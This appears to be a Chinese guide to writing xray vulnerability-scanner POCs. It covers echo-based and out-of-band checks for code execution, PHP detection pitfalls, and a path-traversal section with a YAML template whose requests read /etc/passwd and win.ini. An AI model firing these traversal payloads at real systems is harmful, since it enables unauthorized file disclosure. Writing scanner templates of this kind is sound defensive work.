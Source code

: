 > 与所有能够回显的判断方式类似，我们需要统一规范的就是一定不要在body中直接去匹配在request中出现的内容

- 各种 rce 通常都可以直接使用整数相乘相加或者md5的方法，然后再查找返回结果，这样只有在代码真正被执行的时候才会得到预期的结果
- 同时如果能把代码输出的结果反馈到response的header中，这或许是一个好的选择，在现在的反馈中一般没有出现过误报的问题（推荐）
- 或者可以选择以读取文件的方式来判断漏洞的存在

#### php中可能出的问题

php在现在来看使用的基数仍然够大，且配置灵活，很容易在一些我们想不到的点中出现问题

那么在php这门语言的环境中，一般我们有以下的要求

* 请不要使用`system`、`shell_exec`、`phpinfo`等函数测试漏洞，容易出现误报和漏报
	1.  如果对方本身就是一个phpinfo页面，无法判断是否是成功执行了代码，导致出现误报
	2.  如果对方网站运行在一些虚拟主机环境下，如cpanel，则命令执行函数很可能已经被禁用，此时再用`system`等函数测试漏洞则会出现漏报
* 请不要使用`echo`、`print`、`var_dump`之类的输出语句直接输出一个内容，然后在返回里查找这个内容，此类POC很容易误报和漏报
	1.  如果对方页面本身是一个类似phpinfo的调试页面，会将你的数据包细节完全打印出来，那么并不能证明存在命令执行漏洞
	2.  如果对方安装了xdebug等调试类扩展，`var_dump`等函数输出可能存在差异导致查找不成功

### 无回显代码执行

无回显命令执行要求我们使用反连平台进行测试，只要反连平台接收到相关的请求并能正确处理就说明目标系统成功执行相关命令

> 需要注意，如果目标允许的情况下，使用反连平台时要尽可能地避免掉dns请求，尽量简化配置流程

> 漏洞如果能通过回显检测，就不要使用反连平台，鼓励将公开的无回显的POC改为有回显的

与命令执行不同，当我们需要发出请求的时候，一定不要再去使用相关方法去调用系统命令，直接使用语言内提供的能力即可，这样
- 一方面简化了请求的流程，避免了繁琐的调用流程
- 另一方面防止差异再次扩大到系统的层级上，即然能有中间层已经替我们解决了这个问题，就不要再使用底层的内容

> 对于目标系统不出网的情况这里不多加赘述，可以参考第四章常见问题中内容

## path traversal （目录穿越/任意文件读取）

!> 在验证这类漏洞之前，如果path过于常见（例如根目录或者页面中能够发掘出的路径） 一定要先使用xray自身的path-traversal插件进行探测后再编写相关poc，如果xray本身就能够探测出相关漏洞，那么按照规则会不予收取

```yaml
name: poc-yaml-joomla-cve-2021-28377-fileread
manual: true
transport: http
rules:
	r0:
		request:
			cache: true
			method: GET
			path: /index.php?f=../../../../../../../etc/passwd
		expression: response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
	r1:
		request:
			cache: true
			method: GET
			path: /index.php?f=../../../../../../../Windows/win.ini
		expression: response.status == 200 && response.body.bcontains(b"for 16-bit app support")
expression: r0() || r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```
